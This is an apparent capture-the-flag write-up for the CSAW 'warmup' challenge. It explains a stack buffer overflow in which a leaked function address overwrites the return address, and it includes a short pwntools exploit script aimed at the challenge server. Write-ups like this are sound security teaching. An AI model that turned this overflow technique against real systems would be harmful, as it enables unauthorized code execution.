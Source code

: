 ![description](images/description)

The challenge provides us with a binary "warmup".
Running this binary prints a hex value, then takes user input.
![program test](images/test.png)

Opening it in ida shows that it is printing the address of some symbol named "easy":
![main in ida](images/main.png)

Lets see what this 'easy' symbol is:
![easy](images/easy.png)

The function 'easy' simply prints out the flag to us.

Looking back at the main method, the part that takes in user input is vulnerable to buffer overflow.
The buffer that it writes into is located at [bp - 40h], so anything past 0x40 bytes will overwrite other info.

If you are not familiar with the x86 stack frame layout, http://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64 has some good diagrams.
In short, the return address of our current function is stored at RBP + 8. If we overwrite this 
return address with the address of 'easy', the main function will return into easy, and will print
the flag for us.

I threw together a quick python script to run this exploit:
~~~
#pwntools provides many tools for exploitation challenges
from pwn import *

#establish a connection to the server running the "warmup" binary
r = remote('pwn.chal.csaw.io', 8000)

#receive the first message, which containts the address of 'easy'
msg = r.recv()
lines = msg.split('\n')

#slice the second line of the server message to get the address it sent and convert it to an integer
address = int(lines[1][4:],16)

#sends enough A's to fill the buffer up to the location of the return address, followed by the address of 'easy' that was leaked to us earlier
r.sendline("A" * (0x40 + 8) + p64(address))

#print the server response
print(r.recv())
~~~
Running this gives the flag:
![flag](images/flag.png)


